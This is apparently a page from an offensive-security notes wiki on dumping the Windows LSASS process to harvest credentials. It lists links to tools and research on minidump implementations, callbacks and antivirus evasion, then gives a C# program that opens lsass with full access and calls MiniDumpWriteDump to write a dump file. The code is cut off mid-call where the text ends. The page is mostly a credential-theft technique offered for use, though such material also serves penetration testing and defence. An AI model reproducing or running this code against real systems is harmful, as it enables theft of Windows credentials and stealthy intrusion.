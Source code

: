 
### Custom Implementations

- [https://github.com/rookuu/BOFs/tree/main/MiniDumpWriteDump](https://github.com/rookuu/BOFs/tree/main/MiniDumpWriteDump)
- [https://github.com/w1u0u1/minidump](https://github.com/w1u0u1/minidump)
- [https://github.com/helpsystems/nanodump/blob/main/source/nanodump.c](https://github.com/helpsystems/nanodump/blob/main/source/nanodump.c)
- [https://github.com/YOLOP0wn/POSTDump/tree/main/POSTDump/POSTMiniDump](https://github.com/YOLOP0wn/POSTDump/tree/main/POSTDump/POSTMiniDump)
- [https://ricardojoserf.github.io/nativedump/](https://ricardojoserf.github.io/nativedump/)
- [https://github.com/ricardojoserf/NativeDump](https://github.com/ricardojoserf/NativeDump)



### MiniDump Callbacks

- [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsass-passwords-without-mimikatz-minidumpwritedump-av-signature-bypass#minidumpwritedump-to-memory-using-minidump-callbacks](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsass-passwords-without-mimikatz-minidumpwritedump-av-signature-bypass#minidumpwritedump-to-memory-using-minidump-callbacks)
- [https://github.com/m0rv4i/SafetyDump/blob/master/SafetyDump/Program.cs](https://github.com/m0rv4i/SafetyDump/blob/master/SafetyDump/Program.cs)
- [https://dec0ne.github.io/research/2022-11-14-Undetected-Lsass-Dump-Workflow/](https://dec0ne.github.io/research/2022-11-14-Undetected-Lsass-Dump-Workflow/)



### C\# Implementation

* [https://github.com/chvancooten/OSEP-Code-Snippets/tree/main/MiniDump](https://github.com/chvancooten/OSEP-Code-Snippets/tree/main/MiniDump)

{% code title="SharpMiniDump.cs" %}
```csharp
using System;
using System.IO;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace SharpMiniDump
{
    public class Program
    {
        [DllImport("Dbghelp.dll")]
        static extern bool MiniDumpWriteDump(IntPtr hProcess, int ProcessId, IntPtr hFile, int DumpType, IntPtr ExceptionParam, IntPtr UserStreamParam, IntPtr CallbackParam);

        [DllImport("kernel32.dll")]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        public static void Main(string[] args)
        {
            FileStream dumpFile = new FileStream(@"C:\Windows\tasks\lsass.dmp", FileMode.Create);

            Process[] lsassProc = Process.GetProcessesByName("lsass");
            int lsassPid = lsassProc[0].Id;
            
            IntPtr hProcess = OpenProcess(
                0x001F0FFF, // PROCESS_ALL_ACCESS
                false,
                lsassPid);

            bool res = MiniDumpWriteDump(
                hProcess,
                lsassPid,
```